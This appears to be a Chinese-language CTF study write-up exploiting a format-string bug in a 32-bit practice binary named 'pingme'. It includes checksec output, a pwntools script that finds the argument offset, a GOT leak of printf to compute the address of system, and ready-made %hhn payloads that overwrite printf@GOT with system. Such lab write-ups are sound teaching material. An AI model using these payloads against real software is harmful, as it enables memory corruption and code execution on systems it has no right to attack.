 ```
gef➤  checksec
[+] checksec for '/home/evan/res/study_note/pwn/example/pingme/code/pingme'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : ✘ 
```

这里看出可以做溢出和格式化字符串也可以做GOT修改。


用代码尝试看能不能做格式化字符串

```python
from pwn import *


def fmt_index(p):
    expect = b'ABCD44434241\n'
    for i in range (1,32):
        payload = "ABCD%{}$x".format(i)
        p.sendline(payload)
        data = p.recvline()
        if data == expect:
            p.close()
            return i
    p.close()
    return 0

tar = './pingme'
p = process(tar)
p.recvline()
index = fmt_index(p)

if index == 0:
    log.error("fmt_str arg index out of index:%d",3)
log.info("get fmt_str arg index %d\n",index)
```

这边dump失败 直接使用下载的文件


```
readelf -r pingme  | grep printf
08049974  00000207 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
```

获取 printf got地址 `08049974`

然后获取printf的内存地址 并推出system的  我这里有libc.so

```
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

payload = p32(printf_got)+b'%7$s'
p.sendline(payload)
printf_addr = u32(p.recvline()[4:8])
system_addr = printf_addr-(libc.symbols['printf']-libc.symbols['system'])

log.info("system address: 0x%x" % system_addr)
```


最后还是构造payload  依旧需要逐字节构造

printf got地址 是 `08049974` 那么个就是 74-77 

那么前面几个字节就是 `\x74\x99\x04\x08\x75\x99\x04\x08\x76\x99\x04\x08\x77\x99\x04\x08`

system地址是 0xf7d58da0 a7-10=144 第二个8d小于a0 所以有个截断 18d-a0=237 同理 1d5-18d = 72 1f7-1d5=34 

所以结果就是 `\x74\x99\x04\x08\x75\x99\x04\x08\x76\x99\x04\x08\x77\x99\x04\x08%144c%7$hhn%237c%8$hhn%72c%9$hhn%34c%10$hhn`

我这边实际地址是 `0xf7e09060`

所以结果就是 `\x74\x99\x04\x08\x75\x99\x04\x08\x76\x99\x04\x08\x77\x99\x04\x08%80c%7$hhn%48c%8$hhn%80c%9$hhn%23c%10$hhn`


(/proc/sys/kernel/randomize_va_space 设置为0)